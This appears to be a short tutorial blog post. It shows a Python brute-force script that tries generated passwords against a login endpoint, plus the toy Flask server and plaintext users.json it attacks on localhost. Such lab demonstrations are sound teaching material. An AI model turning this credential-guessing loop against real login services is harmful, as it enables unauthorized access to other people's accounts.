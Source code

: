 ```yaml
---
title: "Simple brute-force attack example"
date: 2020-04-26
---
```


Here is my example of simple brute-force attack that you can perform

__Please make sure that performing brute force attacks on other sites is illegal__

First, you need to write password generating code
Brute-force attack code block in python:
```python
    import requests
    k = 0  # password length
    counter = 0

    alphabet = '0123456789abcdefghijklmnopqrstuvwxyz'
    base = len(alphabet)

    while True:
        password = ''  # password

        # generator code
        i = counter
        while i > 0:
            reminder = i % base
            password = alphabet[reminder] + password
            i = i // base

        password = alphabet[0] * (k - len(password)) + password

        print(counter, password)  # test generated code
        response = requests.post('http://127.0.0.1:5000/auth',
                                 json={'login': 'cat', 'password': password})
        if response.status_code == 200:
            print('SUCCESS, password', password)
            break
        counter += 1
        if password == alphabet[-1] * k:  # max_password_for_given_length
            k += 1
            counter = 0
```

Second, since performing brute-force attack is illegal, I created own the simplest server file `server.py` using `flask` library and database `users.json`.

Note: _in real life user logins and passwords are encrypted and their alphabet is more complex than in this example_

`server.py` file code block:
```python
    import json

    from flask import Flask, request, Response

    app = Flask(__name__)

    stats = {
        'attempts': 0,
        'success': 0,
    }


    @app.route('/')
    def hello():
        return f'Hello, user! stats={stats}'


    @app.route('/auth', methods=['POST'])
    def auth():
        stats['attempts'] += 1

        data = request.json
        login = data['login']
        password = data['password']

        with open('users.json') as users_file:
            users = json.load(users_file)

        # users_file = open('users.json')
        # users = json.load(users_file)
        # users_file.close()

        if login in users and users[login] == password:
            status_code = 200
            stats['success'] += 1
        else:
            status_code = 401

        return Response(status=status_code)


    if __name__ == '__main__':
        app.run()

```

`users.json` file code block:
```json
    {
        "admin": "12345",
        "jack": "black",
        "cat": "dog"
    }
```
